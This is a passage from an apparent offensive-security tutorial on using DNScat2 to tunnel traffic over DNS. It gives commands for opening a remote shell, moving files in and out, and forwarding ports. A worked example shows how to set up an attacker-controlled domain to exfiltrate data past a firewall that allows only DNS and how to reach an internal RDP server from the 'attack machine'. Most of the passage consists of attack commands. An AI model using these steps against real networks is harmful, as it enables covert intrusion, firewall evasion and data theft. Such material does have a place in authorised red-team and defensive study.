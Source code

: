 ```bash
# On the server, after establishing a connection:
dnscat2> session -i 1
dnscat2> shell
```

This opens an interactive shell tunnel over DNS.

#### 2. File Transfer Over DNS

```bash
# On the server:
dnscat2> session -i 1
dnscat2> download /path/to/remote/file /path/to/local/destination
dnscat2> upload /path/to/local/file /path/to/remote/destination
```

#### 3. Port Forwarding Over DNS

```bash
# On the server, forward local port 8080 to remote port 80:
dnscat2> session -i 1
dnscat2> listen 8080 localhost 80
```

This allows you to access services on the internal network through the DNS tunnel.

### Example: Bypassing Firewall Restrictions

This example demonstrates using DNScat2 to exfiltrate data from a network where all conventional outbound traffic is blocked except DNS:

1. **Prepare your external infrastructure**:

```bash
# Register a domain and configure its NS records to point to your server
# Configure your server to accept DNS requests for your domain

# Start the DNScat2 server with encryption
ruby ./dnscat2.rb --dns "domain=exfil.yourdomain.com" --no-cache --secret="ComplexPreSharedKey2023!"
```

2. **Establish the DNS tunnel from the target system**:

```bash
# Execute the client with encryption
./dnscat2 --secret="ComplexPreSharedKey2023!" exfil.yourdomain.com
```

3. **Set up port forwarding to access internal services**:

```bash
# On the DNScat2 server:
dnscat2> session -i 1
dnscat2> listen 8080 10.0.0.100 3389
```

This forwards connections to port 8080 on your attack machine to the internal RDP server at 10.0.0.100:3389.
